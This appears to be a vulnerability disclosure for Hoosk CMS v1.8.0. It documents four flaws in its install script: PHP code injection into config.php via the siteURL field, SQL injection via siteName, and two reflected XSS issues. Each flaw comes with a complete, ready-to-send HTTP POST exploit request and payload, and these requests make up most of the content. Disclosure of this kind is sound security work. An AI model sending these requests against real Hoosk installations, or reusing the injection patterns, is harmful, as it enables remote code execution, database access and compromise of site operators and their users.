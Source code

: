 hoosk

### My env

hoosk v1.8.0

php 5.6.9

Windows

### 0x01 install rce

At `install/index.php:55`，user input was saved to config.php causing RCE.



Send an request:

```
POST /install/index.php HTTP/1.1
Host: XXXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 147

siteName=test&siteURL=http%3A%2F%2Fa.com%2F%27%29%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

![image-20200923112510080](hoosk.assets/image-20200923112510080.png)

We can write any php code into `config.php`

![image-20200923112607126](hoosk.assets/image-20200923112607126.png)



### 0x02 install SQLI

Same file as 0x01. At line 63, user input was concat to a SQL query string, causing SQL injection.

Send request:

```
POST /install/index.php HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName=',siteTitle%3dversion()%23&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

the final sql string would be:

```
UPDATE hoosk_settings SET siteTitle='',siteTitle=version()#' WHERE siteID=0
```

`version()` has been executed, and its result returned:

![image-20200923135921880](hoosk.assets/image-20200923135921880.png)



### 0x03 install xss

same as 0x02, param `siteName` also vulnerable to xss:

```
POST /install/index.php HTTP/1.1
Host: XXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName='<script>alert(1)</script>&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

![image-20200923140254374](hoosk.assets/image-20200923140254374.png)



### 0x04 install xss

Same as 0x03, param `siteURL` is vulnerable to xss:

```
POST /code-env/Hoosk-master/install/index.php HTTP/1.1
Host: xxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129

siteName=test&siteURL="<script>alert(1)</script>&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost%3A3306
```

![image-20201012172109625](hoosk.assets/image-20201012172109625.png)

